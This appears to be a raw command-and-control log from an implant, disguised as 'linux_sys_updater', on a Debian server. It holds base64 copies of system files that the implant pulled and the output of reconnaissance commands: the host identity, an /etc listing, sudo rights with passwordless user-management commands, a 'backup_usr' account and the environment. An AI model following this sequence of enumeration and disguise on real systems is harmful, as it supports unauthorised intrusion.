BpZAojTWF4U3RhcnR1cHMgMTA6MzA6MTAwCiNQZXJtaXRUdW5uZWwgbm8KI0Nocm9vdERpcmVjdG9yeSBub25lCiNWZXJzaW9uQWRkZW5kdW0gbm9uZQoKIyBubyBkZWZhdWx0IGJhbm5lciBwYXRoCiNCYW5uZXIgbm9uZQoKIyBBbGxvdyBjbGllbnQgdG8gcGFzcyBsb2NhbGUgYW5kIGNvbG9yIGVudmlyb25tZW50IHZhcmlhYmxlcwpBY2NlcHRFbnYgTEFORyBMQ18qIENPTE9SVEVSTSBOT19DT0xPUgoKIyBvdmVycmlkZSBkZWZhdWx0IG9mIG5vIHN1YnN5c3RlbXMKU3Vic3lzdGVtCXNmdHAJL3Vzci9saWIvb3BlbnNzaC9zZnRwLXNlcnZlcgoKIyBFeGFtcGxlIG9mIG92ZXJyaWRpbmcgc2V0dGluZ3Mgb24gYSBwZXItdXNlciBiYXNpcwojTWF0Y2ggVXNlciBhbm9uY3ZzCiMJWDExRm9yd2FyZGluZyBubwojCUFsbG93VGNwRm9yd2FyZGluZyBubwojCVBlcm1pdFRUWSBubwojCUZvcmNlQ29tbWFuZCBjdnMgc2VydmVyCg==
DWNL_DATA MTI3LjAuMC4xCWxvY2FsaG9zdAo6OjEJbG9jYWxob3N0IGlwNi1sb2NhbGhvc3QgaXA2LWxvb3BiYWNrCmZlMDA6OglpcDYtbG9jYWxuZXQKZmYwMDo6CWlwNi1tY2FzdHByZWZpeApmZjAyOjoxCWlwNi1hbGxub2RlcwpmZjAyOjoyCWlwNi1hbGxyb3V0ZXJzCjEwLjEwLjAuMTAJYXNoLXdic3J2MDMK
UPLD_ACK
OUTPUT ASH_CLI_nxpgkxxdatxrcbvkeqby Linux ash-wbsrv03 6.12.88+deb13-amd64 #1 SMP PREEMPT_DYNAMIC Debian 6.12.88-1 (2026-05-15) x86_64 GNU/Linux

OUTPUT ASH_CLI_nxpgkxxdatxrcbvkeqby total 556
drwxr-xr-x 1 root root    4096 May 22 18:53 .
drwxr-xr-x 1 root root    4096 May 22 18:53 ..
-rw------- 1 root root       0 May 18 00:00 .pwd.lock
drwxr-xr-x 3 root root    4096 May 20 19:30 X11
-rw-r--r-- 1 root root    3981 May  6  2025 adduser.conf
drwxr-xr-x 1 root root    4096 May 20 19:31 alternatives
drwxr-xr-x 1 root root    4096 May 20 19:31 apache2
drwxr-xr-x 8 root root    4096 May 18 00:00 apt
-rw-r--r-- 1 root root    1997 May  9 11:07 bash.bashrc
-rw-r--r-- 1 root root      45 Jan 12  2025 bash_completion
drwxr-xr-x 2 root root    4096 May 20 19:31 bash_completion.d
-rw-r--r-- 1 root root     367 Apr 27 20:09 bindresvport.blacklist
drwxr-xr-x 2 root root    4096 Apr 13 19:38 binfmt.d
drwxr-xr-x 3 root root    4096 May 20 19:30 ca-certificates
-rw-r--r-- 1 root root    6422 May 20 19:31 ca-certificates.conf
drwx------ 2 root root    4096 Apr 13 19:38 credstore
drwx------ 2 root root    4096 Apr 13 19:38 credstore.encrypted
drwxr-xr-x 1 root root    4096 May 20 19:31 cron.daily
drwxr-xr-x 4 root root    4096 May 20 19:29 dbus-1
-rw-r--r-- 1 root root    2967 Mar 10  2025 debconf.conf
-rw-r--r-- 1 root root       5 May  8 16:10 debian_version
drwxr-xr-x 1 root root    4096 May 20 19:31 default
-rw-r--r-- 1 root root    1706 May  6  2025 deluser.conf
drwxr-xr-x 3 root root    4096 May 20 19:30 dhcp
drwxr-xr-x 1 root root    4096 May 20 19:31 dpkg
-rw-r--r-- 1 root root       0 May 18 00:00 environment
-rw-r--r-- 1 root root    1936 Mar 15  2025 ethertypes
-rw-r--r-- 1 root root      37 May 18 00:00 fstab
-rw-r--r-- 1 root root    2584 Jan 28  2025 gai.conf
-rw-r--r-- 1 root root    3986 Mar  3  2025 gprofng.rc
-rw-r--r-- 1 root root    1059 May 20 19:31 group
-rw-r--r-- 1 root root    1049 May 20 19:31 group-
-rw-r----- 1 root shadow   927 May 20 19:31 gshadow
-rw-r----- 1 root shadow   917 May 20 19:31 gshadow-
drwxr-xr-x 3 root root    4096 May 20 19:30 gss
-rw-r--r-- 1 root root       9 May  8 16:10 host.conf
-rw-r--r-- 1 root root      12 May 22 18:53 hostname
-rw-r--r-- 1 root root     171 May 22 18:53 hosts
-rw-r--r-- 1 root root     411 May 20 19:31 hosts.allow
-rw-r--r-- 1 root root     711 May 20 19:31 hosts.deny
drwxr-xr-x 2 root root    4096 May 20 19:31 init.d
-rw-r--r-- 1 root root    1875 Dec 13  2024 inputrc
-rw-r--r-- 1 root root      27 May  8 16:10 issue
-rw-r--r-- 1 root root      20 May  8 16:10 issue.net
drwxr-xr-x 1 root root    4096 May 20 19:29 kernel
-rw-r--r-- 1 root root   10039 May 20 19:31 ld.so.cache
-rw-r--r-- 1 root root      34 Apr 27 20:09 ld.so.conf
drwxr-xr-x 1 root root    4096 May 20 19:31 ld.so.conf.d
drwxr-xr-x 2 root root    4096 May 20 19:31 ldap
-rw-r--r-- 1 root root     191 Nov 14  2024 libaudit.conf
drwxr-xr-x 4 root root    4096 May 20 19:31 lighttpd
lrwxrwxrwx 1 root root      27 May 18 00:00 localtime -> /usr/share/zoneinfo/Etc/UTC
-rw-r--r-- 1 root root    5939 Apr 19  2025 login.defs
drwxr-xr-x 1 root root    4096 May 20 19:31 logrotate.d
-r--r--r-- 1 root root      33 May 20 19:29 machine-id
-rw-r--r-- 1 root root   78282 Mar  8  2025 mime.types
drwxr-xr-x 2 root root    4096 May 20 19:29 modules-load.d
-rw-r--r-- 1 root root     286 May  8 16:10 motd
lrwxrwxrwx 1 root root      12 May 22 18:53 mtab -> /proc/mounts
-rw-r--r-- 1 root root   11763 May  3 23:09 nanorc
-rw-r--r-- 1 root root      60 May 20 19:31 networks
-rw-r--r-- 1 root root     526 May 20 19:31 nsswitch.conf
drwxr-xr-x 2 root root    4096 May 18 00:00 opt
lrwxrwxrwx 1 root root      21 May  8 16:10 os-release -> ../usr/lib/os-release
-rw-r--r-- 1 root root     552 Jun 29  2025 pam.conf
drwxr-xr-x 1 root root    4096 May 20 19:31 pam.d
-rw-r--r-- 1 root root    1998 May 20 19:31 passwd
-rw-r--r-- 1 root root    1943 May 20 19:31 passwd-
drwxr-xr-x 3 root root    4096 May 20 19:29 perl
-rw-r--r-- 1 root root     847 May 20 19:31 profile
drwxr-xr-x 1 root root    4096 May 20 19:31 profile.d
-rw-r--r-- 1 root root    3144 Oct 17  2022 protocols
drwxr-xr-x 2 root root    4096 May 20 19:31 python3
drwxr-xr-x 2 root root    4096 May 20 19:30 python3.13
drwxr-xr-x 1 root root    4096 May 20 19:31 rc0.d
drwxr-xr-x 1 root root    4096 May 20 19:31 rc1.d
drwxr-xr-x 1 root root    4096 May 20 19:31 rc2.d
drwxr-xr-x 1 root root    4096 May 20 19:31 rc3.d
drwxr-xr-x 1 root root    4096 May 20 19:31 rc4.d
drwxr-xr-x 1 root root    4096 May 20 19:31 rc5.d
drwxr-xr-x 1 root root    4096 May 20 19:31 rc6.d
drwxr-xr-x 1 root root    4096 May 20 19:31 rcS.d
-rw-r--r-- 1 root root     308 May 22 18:53 resolv.conf
lrwxrwxrwx 1 root root      13 Dec 18  2024 rmt -> /usr/sbin/rmt
-rw-r--r-- 1 root root     911 Oct 17  2022 rpc
drwxr-xr-x 3 root root    4096 May 20 19:30 runit
drwxr-xr-x 1 root root    4096 May 18 00:00 security
drwxr-xr-x 2 root root    4096 May 18 00:00 selinux
-rw-r--r-- 1 root root   12990 Mar 15  2025 services
-rw-r----- 1 root shadow  2355 May 20 19:31 shadow
-rw-r----- 1 root shadow  2249 May 20 19:31 shadow-
-rw-r--r-- 1 root root     118 May 18 00:00 shells
drwxr-xr-x 2 root root    4096 May 18 00:00 skel
drwxr-xr-x 1 root root    4096 May 20 19:31 ssh
drwxr-xr-x 4 root root    4096 May 20 19:31 ssl
-rw-r--r-- 1 root root     420 May 20 19:31 subgid
-rw-r--r-- 1 root root     393 May 20 19:31 subgid-
-rw-r--r-- 1 root root     420 May 20 19:31 subuid
-rw-r--r-- 1 root root     393 May 20 19:31 subuid-
-rw-r--r-- 1 root root    4337 Apr 11 12:21 sudo.conf
-rw-r--r-- 1 root root    9804 Apr 11 12:21 sudo_logsrvd.conf
-r--r----- 1 root root    1802 May 20 19:31 sudoers
drwxr-xr-x 2 root root    4096 May 20 19:31 sudoers.d
drwxr-xr-x 1 root root    4096 May 20 19:31 supervisor
drwxr-xr-x 3 root root    4096 May 20 19:30 sv
drwxr-xr-x 2 root root    4096 May 20 19:31 sysctl.d
drwxr-xr-x 1 root root    4096 May 20 19:31 systemd
drwxr-xr-x 2 root root    4096 May 18 00:00 terminfo
drwxr-xr-x 2 root root    4096 Apr 13 19:38 tmpfiles.d
-rw-r--r-- 1 root root    1259 May 19  2025 ucf.conf
drwxr-xr-x 3 root root    4096 May 20 19:30 ufw
drwxr-xr-x 2 root root    4096 May 18 00:00 update-motd.d
lrwxrwxrwx 1 root root      16 May 20 19:29 vconsole.conf -> default/keyboard
-rw-r--r-- 1 root root     681 Feb 21  2025 xattr.conf
drwxr-xr-x 3 root root    4096 May 20 19:29 xdg

OUTPUT ASH_CLI_nxpgkxxdatxrcbvkeqby uid=1005(kingmaelor) gid=1011(crownspire) groups=1011(crownspire),27(sudo)

OUTPUT ASH_CLI_nxpgkxxdatxrcbvkeqby Matching Defaults entries for kingmaelor on ash-wbsrv03:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, use_pty

User kingmaelor may run the following commands on ash-wbsrv03:
    (ALL : ALL) ALL
    (ALL) NOPASSWD: /usr/sbin/useradd, /usr/sbin/usermod, /usr/sbin/chpasswd

OUTPUT ASH_CLI_nxpgkxxdatxrcbvkeqby
OUTPUT ASH_CLI_nxpgkxxdatxrcbvkeqby backup_usr:x:1016:1016::/home/backup_usr:/bin/bash

OUTPUT ASH_CLI_nxpgkxxdatxrcbvkeqby USER=kingmaelor
SSH_CLIENT=10.10.0.56 53470 22
_PYI_ARCHIVE_FILE=/srv/AshShare/linux_sys_updater
SHLVL=0
LD_LIBRARY_PATH=/tmp/_MEITTZONB
MOTD_SHOWN=pam
HOME=/home/kingmaelor
SSH_TTY=/dev/pts/1
_PYI_PARENT_PROCESS_LEVEL=1
_PYI_APPLICATION_HOME_DIR=/tmp/_MEITTZONB
LOGNAME=kingmaelor
_=/srv/AshShare/linux_sys_updater
TERM=xterm-256color
_PYI_LINUX_PROCESS_NAME=linux_sys_updat
PATH=/usr/local/bin:/usr/bin:/bin:/usr/local/games:/usr/games
LANG=C.UTF-8
LS_COLORS=rs=0:di=01;34:ln=01;36:mh=00:pi=40;33:so=01;35:do=01;35:bd=40;33;01:cd=40;33;01:or=40;31;01:mi=00:su=37;41:sg=30;43:ca=00:tw=30;42:ow=34;42:st=37;44:ex=01;32:*.7z=01;31:*.ace=01;31:*.alz=01;31:*.apk=01;31:*.arc=01;31:*.arj=01;31:*.bz=01;31:*.bz2=01;31:*.cab=01;31:*.cpio=01;31:*.crate=01;31:*.deb=01;31:*.drpm=01;31:*.dwm=01;31:*.dz=01;31:*.ear=01;31:*.egg=01;31:*.esd=01;31:*.gz=01;31:*.jar=01;31:*.lha=01;31:*.lrz=01;31:*.lz=01;31:*.lz4=01;31:*.lzh=01;31:*.lzma=01;31:*.lzo=01;31:*.pyz=01;31:*.rar=01;31:*.rpm=01;31:*.rz=01;31:*.sar=01;31:*.swm=01;31:*.t7z=01;31:*.tar=01;31:*.taz=01;31:*.tbz=01;31:*.tbz2=01;31:*.tgz=01;31:*.tlz=01;31:*.txz=01;31:*.tz=01;31:*.tzo=01;31:*.tzst=01;31:*.udeb=01;31:*.war=01;31:*.whl=01;31:*.wim=01;31:*.xz=01;31:*.z=01;31:*.zip=01;31:*.zoo=01;31:*.zst=01;31:*.avif=01;35:*.jpg=01;35:*.jpeg=01;35:*.jxl=01;35:*.mjpg=01;35:*.mjpeg=01;35:*.gif=01;35:*.bmp=01;35:*.pbm=01;35:*.pgm=01;35:*.ppm=01;35:*.tga=01;35:*.xbm=01;35:*.xpm=01;35:*.tif=01;35:*.tiff=01;35:*.png=01;35:*.svg=01;35:*.svgz=01;35:*.mng=01;35:*.pcx=01;35:*.mov=01;35:*.mpg=01;35:*.mpeg=01;35:*.m2v=01;35:*.mkv=01;35:*.webm=01;35:*.webp=01;35:*.ogm=01;35:*.mp4=01;35:*.m4v=01;35:*.mp4v=01;35:*.vob=01;35:*.qt=01;35:*.nuv=01;35:*.wmv=01;35:*.asf=01;35:*.rm=01;35:*.rmvb=01;35:*.flc=01;35:*.avi=01;35:*.fli=01;35:*.flv=01;35:*.gl=01;35:*.dl=01;35:*.xcf=01;35:*.xwd=01;35:*.yuv=01;35:*.cgm=01;35:*.emf=01;35:*.ogv=01;35:*.ogx=01;35:*.aac=00;36:*.au=00;36:*.flac=00;36:*.m4a=00;36:*.mid=00;36:*.midi=00;36:*.mka=00;36:*.mp3=00;36:*.mpc=00;36:*.ogg=00;36:*.ra=00;36:*.wav=00;36:*.oga=00;36:*.opus=00;36:*.spx=00;36:*.xspf=00;36:*~=00;90:*#=00;90:*.bak=00;90:*.crdownload=00;90:*.dpkg-dist=00;90:*.dpkg-new=00;90:*.dpkg-old=00;90:*.dpkg-tmp=00;90:*.old=00;90:*.orig=00;90:*.part=00;90:*.rej=00;90:*.rpmnew=00;90:*.rpmorig=00;90:*.rpmsave=00;90:*.swp=00;90:*.tmp=00;90:*.ucf-dist=00;90:*.ucf-new=00;90:*.ucf-old=00;90:
SHELL=/bin/bash
VISIBLE=now
PWD=/home/kingmaelor
LC_ALL=C.UTF-8
SSH_CONNECTION=10.10.0.56 53470 10.10.0.10 22

OUTPUT ASH_CLI_nxpgkxxdatxrcbvkeqby
```
